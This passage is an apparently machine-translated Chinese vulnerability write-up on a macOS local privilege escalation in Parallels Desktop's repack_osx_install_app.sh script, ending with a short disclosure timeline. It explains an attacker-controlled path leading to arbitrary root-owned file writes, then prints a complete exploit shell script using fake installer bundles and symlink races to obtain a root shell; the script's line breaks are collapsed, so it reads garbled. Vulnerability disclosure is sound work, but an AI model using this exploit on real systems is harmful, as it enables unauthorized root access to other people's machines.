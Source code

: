   
第13行：变量$result_vol_name被攻击者控制，因此$temp_result_dir第50行的路径也受到控制。  
  
在第 70 行（# Copy source .app into image）：源路径$source_app和目标路径$temp_result_dir均受控制。因此，攻击者可以获得一个原语，将任意内容写入任意根拥有的路径。  
  
在下面的漏洞利用中，我覆盖了，它将在第 77 行以root 权限$p7z_tool生成。（这是TCC 应用程序管理允许的。）  
  
由于以下错误处理代码，我的漏洞利用面临一些挑战repack_osx_install_app.sh：  
  
```
trap"cleanup; exit $ERR_UNEXPECTED" ERR
```  
  
- 在第51行，$temp_result_dir不应该存在，否则mkdir将返回错误。  
  
解决方案：使用符号链接重定向根拥有的结果文件夹。  
- 第56行到第58行，操作的源路径必须存在move_file，否则会返回错误：路径不存在。  
  
解决方案：制作一个BaseSystem.dmg可供7z提取的工艺品。  
  
漏洞2  
  
该函数的新利用脚本do_repack_manual如下：  
  
```
#!/bin/shecho"[?] whoami; id"whoamiidecho"[*] Dropping a payload..."cat << EOF > /tmp/payload#!/bin/shtouch /Library/lpe/System/Applications/Utilities/Terminal.app/Contents/MacOS/TerminalEOFchmod +x /tmp/payloadecho"[*] Dropping a fake macOS installer..."mkdir -p /tmp/poc.app/Contents/Resourcesmv /tmp/payload /tmp/poc.app/Contents/Resources/createinstallmediadefaults write /tmp/poc.app/Contents/Info.plist CFBundleDisplayName ../../../../../../tmp/lnk/result# redirect the root-owned folder "result"mkdir /tmp/redirectln -s /tmp/redirect /tmp/lnkecho"[*] Dropping a fake BaseSystem.dmg..."mkdir -p /tmp/tmp/System/Library/CoreServices/touch /tmp/tmp/System/Library/CoreServices/boot.efitouch /tmp/tmp/System/Library/CoreServices/SystemVersion.plisttouch /tmp/tmp/System/Library/CoreServices/PlatformSupport.plist/Applications/Parallels\ Desktop.app/Contents/MacOS/7z a 1.zip /tmp/tmpmkdir -p /tmp/poc.app/Contents/SharedSupport/mv 1.zip /tmp/poc.app/Contents/SharedSupport/BaseSystem.dmgmkdir -p /tmp/dst/result/poc.app/Contents/Resources# in the command:# cp -R "$source_app" "$temp_result_dir"# the 7z command will be replaced by my payloadln -s /Applications/Parallels\ Desktop.app/Contents/MacOS/7z /tmp/dst/result/poc.app/Contents/Resources/createinstallmediaecho"[*] Trigger the repack..."open /tmp/poc.app -a /Applications/Parallels\ Desktop.appecho"[*] Waitting for the temp_result_dir..."while [ ! -d "/tmp/redirect/result" ]; do  :doneln -sfn /tmp/dst /tmp/lnkecho"[*] All done. Enjoy the root shell :P"
```  
  
  
时间线  
  
这次我再也不相信ZDI了。所以我决定直接向供应商报告这个新问题：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taekMCD6gQsNjjLD6gq1fafzCqTwUwbpFyTQ1ZIlWCXHAyBZNxeA2t39P5B3ia7vNlgAUypcK8I6Ezw/640?wx_fmt=png&from=appmsg "")  